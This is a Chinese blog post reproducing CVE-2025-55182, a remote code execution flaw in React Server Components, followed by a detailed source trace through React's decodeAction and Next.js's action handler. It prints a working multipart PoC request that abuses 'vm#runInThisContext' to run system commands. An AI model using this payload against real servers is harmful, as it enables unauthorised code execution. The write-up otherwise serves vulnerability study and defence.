---
title: "React 服务器组件远程代码执行漏洞"
date: 2025-12-07T12:41:01+08:00
summary: "React 服务器组件远程代码执行漏洞，源码分析算是网上文章里面比较详细的吧，但是对于我一个不怎么接触js的人来说确实需要磨一下代码"
url: "/posts/CVE-2025-55182漏洞复现/"
categories:
  - "CVE"
tags:
  - "漏洞复现"
draft: true
---

# 0x01漏洞描述

https://nvd.nist.gov/vuln/detail/CVE-2025-55182

在 React Server Components 版本 19.0.0、19.1.0、19.1.1 和 19.2.0 中，存在一个预认证远程代码执行漏洞，源于服务端在反序列化 Server Action 请求时未校验模块导出属性的合法性，攻击者可通过操控请求负载访问原型链上的危险方法（如 vm.runInThisContext），进而执行任意系统命令。包括以下包：react-server-dom-parcel、react-server-dom-turbopack，以及 react-server-dom-webpack. 该漏洞代码会不安全地将 HTTP 请求的有效载荷反序列化到 Server Function 端点。

## 什么是React Server Components

React Server Components（RSC）是React 18 开始引入的一种新的渲染方式。RSC允许React组件在服务器端执行并通过Flight协议将反序列化渲染的结果流式传输给客户端

# 0x02影响版本

影响组件：

- `react-server-dom-webpack` 19.0.0、19.1.0、19.1.1、19.2.0
- `react-server-dom-turbopack` 19.0.0、19.1.0、19.1.1、19.2.0
- `react-server-dom-parcel`19.0.0、19.1.0、19.1.1、19.2.0

影响版本：

- React 19.0.0、19.1.0、19.1.1、19.2.0

- Next.js： 15.0.5， 15.1.9， 15.2.6， 15.3.6， 15.4.8， 15.5.7， 16.0.7+

# 0x03环境搭建

先下载node.js环境

```java
https://nodejs.org/en/download
```

然后我们下载有问题的环境

```java
https://www.xsssql.com/wp-content/uploads/2025/12/CVE-2025-55182-test.zip
```

解压下载存在问题的环境后启动环境

```java
# Install dependencies
npm install

# Start vulnerable server (port 3002)
npm start
```



访问3002端口就行了



# 0x04漏洞复现

## POC

```http
POST /formaction HTTP/1.1
Host: localhost:3002
Content-Type: multipart/form-data; boundary=----Boundary
Content-Length: 297

------Boundary
Content-Disposition: form-data; name="$ACTION_REF_0"

------Boundary
Content-Disposition: form-data; name="$ACTION_0:0"

{"id":"vm#runInThisContext","bound":["global.process.mainModule.require(\"child_process\").execSync(\"whoami\").toString()"]}
------Boundary--
```



换成calc也一样可以



# 0x05代码分析

先从github把源码拉下来：https://github.com/facebook/react/tree/v19.2.0

React Server Actions 通过 `$ACTION_REF_*` 和 `$ACTION_ID_*` 两类字段实现服务端函数调用，但是在 19.2.0 及之前版本中，因缺少对模块导出属性的合法性校验，攻击者可借助 `$ACTION_REF_*` 机制注入任意 `id`（如 `"vm#runInThisContext"`），结合 Node.js 内置模块实现远程代码执行；

在React\react-19.2.0\packages\react-server\src\ReactFlightActionServer.js中的decodeAction函数，这是React Server Actions的解码函数，用于从FormData中提取和重建服务器端的action函数，我们挨个分析一下

```javascript
export function decodeAction<T>(
  body: FormData,
  serverManifest: ServerManifest,
): Promise<() => T> | null
```

获取两个参数，一个是body，类型是表单数据对象FormData，FormData 是浏览器中用来存储表单数据的对象。另一个是serverManifest，类型是服务器端所有可调用 action函数

返回值可能是一个promise异步操作函数或者null

```javascript
  // We're going to create a new formData object that holds all the fields except
  // the implementation details of the action data.
  const formData = new FormData();
```

通过注释可以看到这里会创建一个新的formData对象，其中会包含所有的字段但不会包括action数据的详细实现细节

```javascript
  let action: Promise<(formData: FormData) => T> | null = null;
```

初始化一个值为null的action变量，用来存储异步加载出来的服务器函数action函数，action函数的参数为formData，返回值为泛型`T`。

也就是说，在promise异步完成后会返回一个函数例如

```javascript
function someAction(formData: FormData): T { ... }
```

## 请求处理关键代码

接下来就到了关键代码

```javascript
  // $FlowFixMe[prop-missing]
  body.forEach((value: string | File, key: string) => {
    if (!key.startsWith('$ACTION_')) {
      // $FlowFixMe[incompatible-call]
      formData.append(key, value);
      return;
    }
    // Later actions may override earlier actions if a button is used to override the default
    // form action.
    if (key.startsWith('$ACTION_REF_')) {
      const formFieldPrefix = '$ACTION_' + key.slice(12) + ':';
      const metaData = decodeBoundActionMetaData(
        body,
        serverManifest,
        formFieldPrefix,
      );
      action = loadServerReference(serverManifest, metaData.id, metaData.bound);
      return;
    }
    if (key.startsWith('$ACTION_ID_')) {
      const id = key.slice(11);
      action = loadServerReference(serverManifest, id, null);
      return;
    }
  });
```

通过遍历表单数据获取表单字段名和字段值

这里做了三个检测

- 如果字段不是`$ACTION_`开头，就把字段追加在新的formData中并返回进行下一个字段的循环
- 如果字段是`$ACTION_REF_`开头，则将`$ACTION_REF_`后面的字符拼接到`$ACTION_`中并加上`:`冒号赋值给formFieldPrefix，值是`$ACTION_0`

### decodeBoundA3ctionMetaData解析函数

接着调用decodeBoundActionMetaData做了一个元数据解析，分别把ServerManifest服务器函数调用清单，body表单数据以及formFieldPrefix传入



跟进createResponse

```javascript
export function createResponse(
  bundlerConfig: ServerManifest,
  formFieldPrefix: string,
  temporaryReferences: void | TemporaryReferenceSet,
  backingFormData?: FormData = new FormData(),
): Response {
  const chunks: Map<number, SomeChunk<any>> = new Map();
  const response: Response = {
    _bundlerConfig: bundlerConfig,
    _prefix: formFieldPrefix,
    _formData: backingFormData,
    _chunks: chunks,
    _closed: false,
    _closedReason: null,
    _temporaryReferences: temporaryReferences,
  };
  return response;
}
```

创建一个响应对象，用来解析和存储数据内容

```javascript
  const refPromise = getRoot<{
    id: ServerReferenceId,
    bound: null | Promise<Array<any>>,
  }>(actionResponse);
```

这里返回值是一个对象，包含id和bound字段，传入参数是actionResponse

跟进getRoot函数

```java
export function getRoot<T>(response: Response): Thenable<T> {
  const chunk = getChunk(response, 0);
  return (chunk: any);
}
function getChunk(response: Response, id: number): SomeChunk<any> {
  const chunks = response._chunks;
  let chunk = chunks.get(id);
  if (!chunk) {
    const prefix = response._prefix;
    const key = prefix + id;
    // Check if we have this field in the backing store already.
    const backingEntry = response._formData.get(key);
    if (backingEntry != null) {
      // We assume that this is a string entry for now.
      chunk = createResolvedModelChunk(response, (backingEntry: any), id);
    } else if (response._closed) {
      // We have already errored the response and we're not going to get
      // anything more streaming in so this will immediately error.
      chunk = createErroredChunk(response, response._closedReason);
    } else {
      // We're still waiting on this entry to stream in.
      chunk = createPendingChunk(response);
    }
    chunks.set(id, chunk);
  }
  return chunk;
}
```

先是从chunks缓存中查找是否存在ID对应的数据块，随后从formData中获取key对应的表单数据，并调用createResolvedModelChunk函数创建



结合上面的createResponse函数中response的内容来看，我们不难理解到poc中的意思了

举个例子：

如果我们传入一个字段名是`$ACTION_REF_0`的表单数据，此时会获取`$ACTION_REF_`后面的`0`进行拼接拿到一个formFieldPrefix值为`$ACTION_0:`，在getChunk函数中的key是在formFieldPrefix后面加上id，根据getRoot的实际参数可以知道是0，所以最终的key就是`$ACTION_0:0`，那么在下面的获取表单数据中最终获取到的backingEntry就是字段为`$ACTION_0:0`的表单数据

我们跟进createResolvedModelChunk函数

```javascript
function createResolvedModelChunk<T>(
  response: Response,
  value: string,
  id: number,
): ResolvedModelChunk<T> {
  // $FlowFixMe[invalid-constructor] Flow doesn't support functions as constructors
  return new Chunk(RESOLVED_MODEL, value, id, response);
}
```

创建一个chunk对象，存储我们传入的id为0的数据块，value就是我们字段为`$ACTION_0:0`的表单数据

最后会返回这个chunk，在decodeBoundActionMetaData最后会返回chunk中的value表单数据赋值给metaData



### loadServerReference函数引用

回到decodeAction函数，并调用loadServerReference函数进行服务器引用，这里会通过id从服务器中查找对应ID的函数，并将预绑定的参数bound附加到函数上，最后赋值给action参数

```javascript
function loadServerReference<T>(
  bundlerConfig: ServerManifest,
  id: ServerReferenceId,
  bound: null | Thenable<Array<any>>,
): Promise<T> {
  const serverReference: ServerReference<T> =
    resolveServerReference<$FlowFixMe>(bundlerConfig, id);
  // We expect most servers to not really need this because you'd just have all
  // the relevant modules already loaded but it allows for lazy loading of code
  // if needed.
  const preloadPromise = preloadModule(serverReference);
  if (bound) {
    return Promise.all([(bound: any), preloadPromise]).then(
      ([args]: Array<any>) => bindArgs(requireModule(serverReference), args),
    );
  } else if (preloadPromise) {
    return Promise.resolve(preloadPromise).then(() =>
      requireModule(serverReference),
    );
  } else {
    // Synchronously available
    return Promise.resolve(requireModule(serverReference));
  }
}
```

根据id参数从服务器中预加载一个函数引用，并根据bound预设绑定参数

其实简单来说就是一个动态函数调用的过程

同理，第二个`$ACTION_ID_`也是一样的，不过这里的话就无法传入参数，猜测可能是无参数的函数调用？



分析完decodeAction函数，我们得找找他是怎么被调用的

`decodeAction` 是 `react-server-dom-webpack`（或其他打包器版本如 `turbopack`、`parcel`）包的一部分。当服务器接收到包含 Server Action 的 POST 请求时会调用它。

## Server Action请求的处理

Server Action 是 React 19 引入的一个特性，允许你在组件中定义**在服务器端执行**的函数。

然后我们看看Next.js框架中对Server Action请求的处理

项目地址：https://github.com/vercel/next.js/tree/v15.5.7

### action-handler.ts#handleAction

这是整个APP Router +RSC的核心渲染入口

在packages/next/src/server/app-render/action-handler.ts中的handleAction函数



先是获取Server Action请求的FormData数据的类型

```ts
          if (isMultipartAction) {
            if (isFetchAction) {
              // A fetch action with a multipart body.

              const busboy = (
                require('next/dist/compiled/busboy') as typeof import('next/dist/compiled/busboy')
              )({
                defParamCharset: 'utf8',
                headers: req.headers,
                limits: { fieldSize: bodySizeLimitBytes },
              })

              // We need to use `pipeline(one, two)` instead of `one.pipe(two)` to propagate size limit errors correctly.
              pipeline(
                sizeLimitedBody,
                busboy,
                // Avoid unhandled errors from `pipeline()` by passing an empty completion callback.
                // We'll propagate the errors properly when consuming the stream.
                () => {}
              )

              boundActionArguments = await decodeReplyFromBusboy(
                busboy,
                serverModuleMap,
                { temporaryReferences }
              )
            } else {
              // Multipart POST, but not a fetch action.
              // Potentially an MPA action, we have to try decoding it to check.

              // React doesn't yet publish a busboy version of decodeAction
              // so we polyfill the parsing of FormData.
              const fakeRequest = new Request('http://localhost', {
                method: 'POST',
                // @ts-expect-error
                headers: { 'Content-Type': contentType },
                body: new ReadableStream({
                  start: (controller) => {
                    sizeLimitedBody.on('data', (chunk) => {
                      controller.enqueue(new Uint8Array(chunk))
                    })
                    sizeLimitedBody.on('end', () => {
                      controller.close()
                    })
                    sizeLimitedBody.on('error', (err) => {
                      controller.error(err)
                    })
                  },
                }),
                duplex: 'half',
              })
              const formData = await fakeRequest.formData()
              const action = await decodeAction(formData, serverModuleMap)
              if (typeof action === 'function') {
                // an MPA action.

                // Only warn if it's a server action, otherwise skip for other post requests
                warnBadServerActionRequest()

                const actionReturnedState =
                  await executeActionAndPrepareForRender(
                    action as () => Promise<unknown>,
                    [],
                    workStore,
                    requestStore
                  )

                const formState = await decodeFormState(
                  actionReturnedState,
                  formData,
                  serverModuleMap
                )

                // Skip the fetch path.
                // We need to render a full HTML version of the page for the response, we'll handle that in app-render.
                return {
                  type: 'done',
                  result: undefined,
                  formState,
                }
              } else {
                // We couldn't decode an action, so this POST request turned out not to be a server action request.
                return null
              }
            }
          }
```

先是判断请求是不是一个表单上传的请求，如果是的话就获取表单数据，并判断是否是fetch action调用的Server Action，不是才能调用decodeAction获取函数引用action



这里就会执行action并进行解码 formState后返回

看到packages/next/src/server/lib/server-action-request-meta.ts:6中的getServerActionRequestMetadata函数



会根据请求头与 `content-type` 获取请求的表单数据类型

可以看到isMultipartAction参数就是这么来的，同时关注到isFetchAction的获取，因为前面也说了如果isFetchAction不存在的话就会进行decodeAction的调用了



我们看看ACTION_HEADER是怎么来的

在React\next.js-15.5.7\packages\next\src\client\components\app-router-headers.ts中



所以只要请求中不包含next-action这个请求头就不是isFetchAction

然后我们看看哪里调用了handleAction

### app-render.tsx#renderToHTMLOrFlightImpl

在E:\ProjectEnvironment\React\next.js-15.5.7\packages\next\src\server\app-render\app-render.tsx的renderToHTMLOrFlightImpl函数中

```tsx
    if (isPossibleActionRequest) {
      // For action requests, we handle them differently with a special render result.
      const actionRequestResult = await handleAction({
        req,
        res,
        ComponentMod,
        serverModuleMap,
        generateFlight: generateDynamicFlightRenderResult,
        workStore,
        requestStore,
        serverActions,
        ctx,
        metadata,
      })

      if (actionRequestResult) {
        if (actionRequestResult.type === 'not-found') {
          const notFoundLoaderTree = createNotFoundLoaderTree(loaderTree)
          res.statusCode = 404
          metadata.statusCode = 404
          const stream = await renderToStreamWithTracing(
            requestStore,
            req,
            res,
            ctx,
            notFoundLoaderTree,
            formState,
            postponedState,
            metadata,
            devValidatingFallbackParams
          )

          return new RenderResult(stream, {
            metadata,
            contentType: HTML_CONTENT_TYPE_HEADER,
          })
        } else if (actionRequestResult.type === 'done') {
          if (actionRequestResult.result) {
            actionRequestResult.result.assignMetadata(metadata)
            return actionRequestResult.result
          } else if (actionRequestResult.formState) {
            formState = actionRequestResult.formState
          }
        }
      }
    }
...
    const stream = await renderToStreamWithTracing(
      requestStore,
      req,
      res,
      ctx,
      loaderTree,
      formState,
      postponedState,
      metadata,
      devValidatingFallbackParams
    )
```

由于type的值为done而result是undefined，所以来到`formState = actionRequestResult.formState`，而之后会调用renderToStreamWithTracing进行渲染，最终的stream是发送给浏览器的 HTML或者是 RSC



然后我们来看看isPossibleActionRequest是怎么来的

```tsx
 const isPossibleActionRequest = getIsPossibleServerAction(req)
 export function getIsPossibleServerAction(
  req: IncomingMessage | BaseNextRequest | NextRequest
): boolean {
  return getServerActionRequestMetadata(req).isPossibleServerAction
}
```

很神奇，又回到getServerActionRequestMetadata函数了，而且是根据isPossibleServerAction去判定是否是Server Action请求的



只要类型是这三种之一就认为是Server Action请求

继续回溯，看看哪里调用了renderToHTMLOrFlightImpl

```java
packages\next\src\server\route-modules\app-page\module.ts.AppPageRouteModule#render()->
	packages\next\src\server\app-render\app-render.tsx#renderToHTMLOrFlight()->
    	packages\next\src\server\app-render\app-render.tsx#renderToHTMLOrFlightImpl()
```

而render的调用在app-page.ts文件中

